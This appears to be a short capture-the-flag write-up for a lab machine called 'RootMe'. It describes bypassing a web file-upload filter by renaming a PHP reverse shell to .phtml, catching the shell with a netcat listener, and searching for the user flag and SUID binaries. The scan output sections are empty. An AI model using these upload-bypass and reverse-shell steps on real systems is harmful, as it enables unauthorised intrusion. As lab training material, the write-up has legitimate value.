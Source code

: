 # RootMe

IP - 10.10.88.7

## Scanning and Enumeration
nmap scan:
```

```
dirsearch:
```

```

## Exploit
- http://10.10.88.7/panel is vulnerable to file upload.
- http://10.10.88.7/uploads allows you to see the uploaded files.
- Website allows .txt to be uploaded but .php gets denied.


## Reverse Shell
- In terminal navigate to ``` /usr/share/webshells/php/php-reverse-shell.php ```
- ``` cp php-reverse-shell.php ~/Documents/php_reverse_shell.phtml ``` (copy executable file to "Docuemnts" directory and change the file name to .phtml file).
*The reason behind changing the file name to .phtml it's because we need to use a different php extension in order to execute the php reverse shell.
- Upload the executable file in the website and then go to http://10.10.88.7/uploads.
- In the terminal start netcat listener - ``` nc -nlvp 4444 ``` > go back to the website and open the executable file > acheived reverese shell.

## Post-Exploit
- To find user.txt - ``` find / -name “user.txt” 2>/dev/null ```

# Priviledge Escalation
Finding user with different priviledges -``` find / -user root -perm -4000 2>/dev/null ```
